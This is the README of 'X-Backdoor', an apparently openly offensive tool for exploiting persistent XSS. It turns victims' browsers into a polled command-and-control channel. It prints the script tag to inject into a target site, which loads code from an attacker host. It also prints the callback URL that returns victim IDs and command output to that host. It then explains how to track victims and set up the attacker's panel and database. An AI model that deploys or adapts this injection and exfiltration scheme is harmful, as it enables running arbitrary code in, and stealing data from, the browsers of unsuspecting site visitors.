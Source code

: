 # X-Backdoor I

X-Backdoor is a tool to take advantage of a persistent XSS vulnerability. The idea is to play and explore the modern browsers capabilities and the impact that these can have when someone can control the clients.

### Version
1.0

### Author
BlackJolly ( *blackjolly [at] live.com* )

### Screenshots
![screen1](https://raw.githubusercontent.com/BlackEmpire/xbackdoor/master/screenshots/screen1.png "Screen 1")
![screen2](https://raw.githubusercontent.com/BlackEmpire/xbackdoor/master/screenshots/screen2.png "Screen 2")

### Description
We have a target site and an attacker site. In the attacker site there are all the files of the project:
* db.php - Contains the database configuration
* getjs.php - Send js code to the client
* acp/ - contain all the files to admin the backdoor

Now, the attacker inject (with a persistent XSS) this piece of code in the target site:
```html
<script id="scr72" src="http://attackersite/getjs.php"></script>
```
So when a client visit the target site its browser will fetch the content from getjs.php. The javascript code sent from getjs.php, force the browser to make a new request every X seconds, where X is in your configuration. Meanwhile the attacker can view the victim clients, send to them javascript functions and get the response. When a client request the code from getjs.php, the php script checks if there is some js function to execute. If there is, it'll be sent to the client. The next time the client perform a request to the attacker site (looking for new commands) it'll send also the response of the previous function/command.

#### Reload mechanism
In the javascript code sent from the attacker site there is a function that re-create a new script object in the DOM and this force the browser to make a new request. Every time the new script object has two get parameters. The first is the user id (uid) and the second is the data as response from a previous command. So it looks like this:
```html
<script id="scr72" src="http://attackersite/getjs.php?r=2366&uid=7278&data=somereply"></script>
```
The parameter r is a random number to avoid the caching (the requested url are always different).By default the response sent with the parameter data is encoded, while the javascript code sent from the php script is in clear text.

### User ID
When a client visit the infected page on the target site for the first time, a random number (his uid) will be generated and he'll send a special message to the attacker php script.
The uid will be saved into localStorage and in a cookie, so the browser will remember its uid. The attacker have to send a code to delete the cookie and clear the localStorage to have a new registration by the same user.

#### Database
The database has three tables: `functions`, `users`, `schedules`.\
The table `users` contains all information about the clients retrieved by php (server side).\
The table `functions` contains a list of javascript functions.\
The table `schedules` points one ore more functions that a certain client have to execute and saves the response.

The database schema is in db_dump.sql, you can manually execute the queries or import the file with phpMyAdmin. In the database there are already some functions. See *funclib.md* to get more functions.
### Configuration
Edit the following files:
* acp/login.php - Edit the default login password
* db.php - Insert your database configuration
* getjs.php - Set some parameters

### Development

Everyone can join the project and submit his patches :)


License
----

GNU General Public License v3 (GPL-3)


